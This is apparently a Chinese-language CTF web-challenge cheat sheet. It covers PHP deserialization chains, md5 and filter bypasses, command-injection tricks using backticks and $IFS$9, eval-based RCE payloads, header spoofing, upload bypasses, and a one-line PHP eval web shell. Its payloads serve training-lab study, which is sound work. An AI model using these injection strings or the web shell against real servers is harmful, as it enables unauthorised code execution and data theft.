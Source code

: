 # CTF WEB

## SQL注入

见 CTF WEB SQL

## 反序列化

如何跳过__wakeup函数？

O:6:"HaHaHa":***3***:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}

如上所示 对象本该只有两个属性 admin 和 passwd ，将数量设置为3即可在反序列化中跳过wakeup函数。

例题：

```php
<?php
error_reporting(0);
class dxg
{
   function fmm()
   {
      return "nonono";
   }
}

class lt
{
   public $impo='hi';
   public $md51='weclome';
   public $md52='to NSS';
    
   function __construct()
   {
      $this->impo = new dxg;
   }
   function __wakeup()
   {
       # 此处污染impo属性 需要跳过wakeup
      $this->impo = new dxg;
      return $this->impo->fmm();
   }

   function __toString()
   {
      if (isset($this->impo) && md5($this->md51) == md5($this->md52) && $this->md51 != $this->md52)
          # 此处可以调用impo属性的fmm方法 只用是impo属性为fin对象即可
         return $this->impo->fmm();
   }
   function __destruct()
   {
      echo $this;
   }
}

class fin
{
   public $a;
   public $url = 'https://www.ctfer.vip';
   public $title;
   function fmm()
   {
      $b = $this->a;
      $b($this->title);
   }
}

if (isset($_GET['NSS'])) {
   $Data = unserialize($_GET['NSS']);
} else {
   highlight_file(__file__);
}
```

思路：

先找到能找到能回显flag的点位

此处点位在调用fin类中的fmm方法，只需将$b="system" title="cat /flag" 即可

如何调用fin类中的fmm方法呢？再往上看 可知在lt类中的__toSrting函数会调用fmm方法

我们需要构造一个lt类并将其反序列化即可。



tostring函数可以在echo中被调用

传递值可以考虑使用引用&



## PHP伪协议

如何回显文件？

system(cat /flag)

#### 文件包含

posh不要随便加空格

如何绕过waf？

先利用伪协议查看index.php的编码

找到条件并跳过即可

## 绕过

#### md5数组绕过

```
if($_POST['wqh']!==$_POST['dsy']&&md5($_POST['wqh'])===md5($_POST['dsy'])){
    echo $FLAG;
} 
```

此时传入两个数组即可，因为数组可以被传入md5，但是会返回NULL。

#### md5弱比较绕过

```php
$first==md5($first)
```

$first=0e215962017

#### 双写绕过

```
$str = preg_replace('/NSSCTF/',"",$_GET['str']);
```

这里屏蔽了NSSCTF 只要我们这样写： NSSNSSCTFCTF 中间的NSSCTF就会被替换，留存下来的字符仍然是NSSCTF。

#### 通配符绕过

```php
if(!preg_match("/\;|\&|\\$|\x09|\x26|more|less|head|sort|tail|sed|cut|awk|strings|od|php|ping|flag/i", $cmd)){
        return($cmd);
    } 

shell_exec($cmd); 
```

此时可以用通配符将flag写入fuck.txt 再直接从url中读取fuck.txt即可

传参：?cmd=cat /f* > fuck.txt、

#### session绕过

[CTF-Web20（涉及简单的cookie与session）_ctf session-CSDN博客](https://blog.csdn.net/weixin_39934520/article/details/108716916)



#### 常见Linux命令绕过

ls绕过(内联执行)

ip=;cat$IFS$9`ls`

 linux下，会先执行反引号下面的语句
 在这里会执行ls,ls的结果是“index.php flag.php”
 所以最后执行的语句等价于
 cat index.php flag.php



## XXF

从本地页面跳转使用

X-Forwarded-For: 127.0.0.1

Referer:127.0.0.1

遇到将字符作为语句执行 可以将该字符设置为system("cat /f*")

### RCE(远程代码执行漏洞)

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['url']))
{
eval($_GET['url']);
}
?> 
```

传入url=system("ls");

找到flag后再传入url=system("cat /f*");即可



还可以使用反引号绕过

##### 反引号绕过

ip=;cat$IFS$9`ls`
 原理讲解：
 linux下，会先执行反引号下面的语句
 在这里会执行ls,ls的结果是“index.php flag.php”
 所以最后执行的语句等价于
 cat index.php flag.php
 右键查看页面源码即可得到flag

$IFS$9可用来代替空格

```
代替空格
< 、<>、%20(space)、%09(tab)、$IFS$9、 ${IFS}、$IFS等
```

### PUT 请求

put请求需要利用burp抓包再修改

#### 今天天气真好

没有过滤“\”，在shell中反斜杠被当作转义符号处理，对一个字母的转义任然是他本身，故诸如“l\s”会被当作“ls”处理，从而实现绕过；

在php中，被反单引号包裹的字符会被作为shell命令处理，之后利用print函数即可获得输出结果



## 文件上传漏洞

#### php绕过

php3，php5，pht，phtml，phps都是php可运行的文件扩展名



先写个一句话木马

```php
<?php @eval($_POST['hack']); ?>
```

蚁剑连接方式：找到上传文件的路径 密码填hack即可
